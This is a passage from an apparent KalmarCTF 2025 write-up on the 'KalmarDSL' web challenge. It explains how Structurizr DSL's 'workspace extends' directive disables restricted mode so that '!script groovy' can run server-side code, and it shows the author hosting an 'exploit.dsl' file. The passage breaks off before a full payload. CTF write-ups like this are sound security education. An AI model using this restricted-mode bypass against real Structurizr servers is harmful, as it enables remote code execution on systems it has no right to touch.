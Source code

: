 ```java
                            } else {
                                [...]
                                structurizrDslParser.setRestricted(context.isRestricted());
                                [...]
                            }
                        } else {
                            [...]
                        }
                        [...]
                    }
                    [...]
                }
                [...]
            }
            [...]
        }
    }
}
```

Basically, the parser will set the restricted mode to `false` when the following DSL code is provided:

```
workspace extends http://example.com/ {
    
}
```

According to the [Structurizr DSL workspace extension documentation](https://docs.structurizr.com/dsl/cookbook/workspace-extension/), it allows us to extend an existing workspace, enabling you to reuse common elements/relationships across multiple workspaces.

So, if the workspace is NOT in restricted mode, we can now use the `!script` tag to execute arbitrary server-side code, right?!

In the [`!script` tag's inline script documentation](https://docs.structurizr.com/dsl/scripts#inline-scripts), we can use the `!script` keyword followed by the language we’d like to use (`groovy`, `kotlin`, `ruby`, or `javascript`). Let's try `groovy` first!

First, we need to host our own malicious DSL code:

`exploit.dsl`:

```
workspace {
    !script groovy {
        value = "anything"
    }
}
```

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:32:52(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
